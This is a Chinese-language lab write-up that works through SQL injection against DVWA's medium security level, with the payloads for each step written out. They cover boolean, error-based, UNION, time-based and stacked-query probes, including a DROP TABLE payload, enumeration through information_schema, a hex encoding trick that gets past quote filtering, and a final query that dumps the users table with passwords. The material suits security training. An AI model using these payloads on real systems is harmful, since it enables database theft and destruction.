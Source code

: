 # 第一步：检测与服务器交互位置

进来页面，啥都没有

与服务器交互的东西都没没看到，就一个写好了的提交按钮。url也变成的post.

原本的样子：

<img src="C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\medium\imgs\20240914_044542.png" style="zoom:50%;" />

借助工具看一下内容咯：

![20240914_045128](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\medium\imgs\20240914_045128.png)



# 第二步：探测是否存在漏洞

## 方法1：基于布尔的盲注检测（and or || &）



### 检测数字类型（基于1=2错误类型的报错，说明是存在漏洞）

```
1 and 1 = 1
1 and 1 = 2
```

<img src="C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\medium\imgs\20240914_050859.png" alt="20240914_050859" style="zoom:67%;" />





### 检测字符串类型（语法报错，由于 ' 转义了，无法判断）

```
'
"
```



![20240914_064909](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\medium\imgs\20240914_064909.png)

![20240914_065155](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\medium\imgs\20240914_065155.png)

## 方法2：基于报错的检测方法（有错误返回）

![20240914_064909](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\medium\imgs\20240914_064909.png)



## 方法3：基于UNION联合查询的检测

```
union select 1 #
```

<img src="C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\medium\imgs\20240914_051850.png" alt="20240914_051850" style="zoom:67%;" />

## 方法4: 基于时间的盲测的检测（时间函数sleep）

```
'and (select * from (select(sleep(20)))a)--+
```

<img src="C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\medium\imgs\20240914_052130.png" alt="20240914_052130" style="zoom:50%;" />

## 方法5:基于叠对查询的检测（；）

使用";"结束前面的语句，自己在写一个查询语句。

```
1'; DROP TABLE users; -- 
```

![20240914_052453](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\medium\imgs\20240914_052453.png)

# 第三步：推测后台查询语句

```sql
由于没有探测出闭合类型：
select * from table where id =;
select * from table where id ='';
select * from table where id ="";

id=-1 union select 1,(SELECT GROUP_CONCAT(user,password SEPARATOR 0x3c62723e) FROM users)&Submit=Submit
```



# 第四步：查询显示位

## 方式1：根据排序order by 数字类型(数字类型的注入)：

```
直接执行了我们的语句，确定是，数字类型的注入
1 order by 2%23
1 order by 3%23

根据查询在第二列与第三列之前的存在错误的临界点，说明最大显示位位第二列
```

![20240914_070925](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\medium\imgs\20240914_070925.png)

![20240914_071418](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\medium\imgs\20240914_071418.png)

## 方式2：根据联合查询：union select

```sql
根据第1列进行联合显示列数查询
1 union select 1%23
1 union select 1,2%23
列数不断增加，显示为一共为2列
```

![20240914_071908](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\medium\imgs\20240914_071908.png)

![20240914_072139](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\medium\imgs\20240914_072139.png)



# 第五步：根据显示位，查询各种数据库函数。

数据库版本version()

```
id=1 union select 1, version() %23
```

![20240914_072541](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\medium\imgs\20240914_072541.png)



查询当前数据库名称 database()

```
1 union select 1,database() %23
```

![20240914_072859](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\medium\imgs\20240914_072859.png)



# 第六步：尝试查询源数据库内容 information_schema。

## 查询当前数据库的表名称

```
1 union select 1, group_concat(table_name) from information_schema.tables where table_schema = database() %23
```

![20240914_073941](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\medium\imgs\20240914_073941.png)



## 查询源数据库的所有表

```sql
1 union select (table_name collate utf8_unicode_ci),(table_schema collate utf8_unicode_ci) from information_schema.tables %23
```

![20240914_075533](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\medium\imgs\20240914_075533.png)



## 统计源数据库的数据库表数量

![20240914_075119](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\medium\imgs\20240914_075119.png)



# 第七步：根据数据名称与表名称查询字段名称

```sql
由于过滤了单双引号，用十六进制绕过

1 union select 1, group_concat(column_name) from information_schema.columns where table_schema = database() and table_name = 0x7573657273 %23
```

![20240914_084227](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\medium\imgs\20240914_084227.png)



# 第八步：获取数据表字段内容

```sql
1 union select 1, concat_ws(':',user_id,first_name,last_name,user,password,avatar,last_login,failed_login) from users %23
```

![20240914_084843](C:\Users\Administrator\Desktop\rangetest\web_dvwa\sql\sql注入\medium\imgs\20240914_084843.png)



